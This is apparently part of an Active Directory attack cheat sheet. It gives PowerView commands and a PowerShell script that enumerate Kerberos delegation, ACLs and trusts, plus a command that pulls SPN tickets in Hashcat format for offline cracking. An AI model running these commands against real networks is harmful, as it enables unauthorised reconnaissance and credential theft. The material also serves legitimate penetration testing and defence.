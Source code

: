 ## 🎯 **DELEGATION COMMANDS (20+ PowerView/SharpView)**

```powershell
# Unconstrained
Get-DomainComputer -Unconstrained
Get-DomainUser -Unconstrained

# Constrained (users/computers)
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
Get-DomainUser -TrustedToAuth -Properties msDS-AllowedToDelegateTo | Select samaccountname,msDS-AllowedToDelegateTo
Get-DomainComputer -TrustedToAuth -Properties msDS-AllowedToDelegateTo | Select name,msDS-AllowedToDelegateTo

# RBCD
Get-DomainObject -LDAPFilter '(msDS-AllowedToActOnBehalfOfOtherIdentity=*)' -Properties *

# Flag hunting via LDAP filters
Get-DomainUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=16777216)'
Get-DomainComputer -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

# ACL and trust context
Get-DomainObjectAcl -SearchBase (Get-Domain).DistinguishedName -ResolveGUIDs | Where {$_.ObjectAceType -like '*AllowedTo*'}
Get-DomainTrust
Get-ForestTrust

# Ticket prep (lab)
Get-DomainSPNTicket -SPN CIFS/* -OutputFormat Hashcat
```

## 🔍 DELEGATION ENUMERATION

### **1. Unconstrained Delegation Enumeration**

#### **PowerView - Unconstrained Delegation Discovery**
```powershell
# Find computers with unconstrained delegation
Write-Host "=== UNCONSTRAINED DELEGATION ENUMERATION ===" -ForegroundColor Green

# Find computers with unconstrained delegation
$unconstrainedComputers = Get-DomainComputer -Unconstrained -Properties Name, OperatingSystem, LastLogonDate, Description

Write-Host "Computers with Unconstrained Delegation: $($unconstrainedComputers.Count)" -ForegroundColor Red

foreach ($computer in $unconstrainedComputers) {
    Write-Host "  Computer: $($computer.Name)" -ForegroundColor White
    Write-Host "    OS: $($computer.OperatingSystem)" -ForegroundColor Cyan
    Write-Host "    Last Logon: $($computer.LastLogonDate)" -ForegroundColor Gray
    Write-Host "    Description: $($computer.Description)" -ForegroundColor Gray
    
    # Check if this is a high-value target
    if ($computer.Name -like "*DC*" -or $computer.Name -like "*SQL*" -or $computer.Name -like "*WEB*") {
        Write-Host "    ⚠️ HIGH-VALUE TARGET - Monitor closely!" -ForegroundColor Red
    }
    Write-Host ""
}

# Find users with unconstrained delegation
```